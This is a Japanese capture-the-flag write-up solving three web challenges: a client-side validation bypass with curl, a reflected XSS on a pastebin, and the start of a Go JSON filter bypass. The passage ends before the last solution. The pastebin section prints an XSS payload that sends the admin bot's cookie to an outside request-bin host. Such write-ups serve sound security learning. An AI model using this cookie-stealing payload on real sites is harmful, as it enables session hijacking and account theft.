 ## [web]flag-viewer
`user=admin`であればいいことがわかります。

あとは、`--verbose`オプションなどでレスポンスをすべて見ることに注意します。
```none
curl --verbose -d 'user=admin' -X POST https://flag-viewer.mc.ax/flag
...
< location: /?message=hope%7Boops_client_side_validation_again%7D
...
```

FLAG : `hope{oops_client_side_validation_again}`

## [web]pastebin
adminbotはホスト名と同じ名前のページにアクセスしたときにCookieをセットするので、
XSSで`location`を書き換えてリダイレクトされるようにします。

(adminbot.js)
```javascript
await page.setCookie({ name: 'flag', value: flag.trim(), domain: 'pastebin.mc.ax' })
```

`/flash`があることに気づければ、`message`クエリにXSSがありそうなことに気がつけます。

(index.js)
```javascript
app.get('/flash', (req, res) => {
  const message = req.query.message ?? '';
  res.set('set-cookie', `error=${message}`);
  res.redirect('/');
});
```
`https://admin-bot.mc.ax/pastebin`から次のようなURLを入力することで、
フラグを得ることができます。
```none
https://pastebin.mc.ax/flash?message=<script>location=`https://eoyyukk2qvix5xq.m.pipedream.net?cookie=${document.cookie}`</script>
```

FLAG : `hope{the_pastebin_was_irrelvant}`

## [web]point
```go
type importantStuff struct {
	Whatpoint string `json:"what_point"`
}
...
if strings.Contains(string(body), "what_point") || strings.Contains(string(body), "\\") {
	fmt.Fprintf(w, "Something went wrong")
	return
}
...
if whatpoint.Whatpoint == "that_point" {
	fmt.Fprintf(w, "Congrats! Here is the flag: %s", flag)
	return
}
```
`{"what_point":"that_point"}`を送ればいいと思いましたが、
真ん中の行でフィルタリングされているので`what_point`は使えません。

